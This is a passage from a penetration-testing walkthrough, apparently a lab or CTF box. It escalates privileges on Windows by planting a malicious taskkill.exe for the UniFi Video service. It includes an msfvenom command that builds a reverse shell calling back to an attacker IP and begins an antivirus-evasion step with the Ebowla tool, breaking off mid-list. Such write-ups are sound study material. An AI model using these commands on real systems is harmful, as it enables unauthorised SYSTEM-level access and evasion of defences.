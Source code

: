 ```powershell
Get-Service -Name Unifivideoservice
```

![image.png](image%2014.png)

Checking for public exploits available for this app I found:

[Ubiquiti UniFi Video 3.7.3 - Local Privilege Escalation](https://www.exploit-db.com/exploits/43390)

We can also check the existence of the program by using the following command which lists all x64 applications:

```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

![image.png](image%2015.png)

<aside>
🚨

Upon start and stop of the service, it tries to load and execute the file at
"C:\ProgramData\unifi-video\taskkill.exe". However this file does not exist in
the application directory by default at all.

By copying an arbitrary "taskkill.exe" to "C:\ProgramData\unifi-video\" as an
unprivileged user, it is therefore possible to escalate privileges and execute
arbitrary code as NT AUTHORITY/SYSTEM

</aside>

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.32 LPORT=445 -f exe -o taskkill.exe
```

![image.png](image%2016.png)

```powershell
Stop-Service -Name Unifivideoservice -Force
```

Stop service and start again.

I have identified that antivirus is present on the target system, because my reverse shell keeps getting deleted. I tried to use `veil` but it failed to evade. I am gonna use `Ebowla` you can see the usage frm Ippsec’s video here:

[Ebowla Setup and Usage](https://youtube.com/watch?v=l-wzBhc9wFc&t=2756)

Clone git repo, go to that directory:

```bash
git clone https://github.com/Genetic-Malware/Ebowla
```

[https://github.com/Genetic-Malware/Ebowla](https://github.com/Genetic-Malware/Ebowla)

1. Generate `.exe` file:
    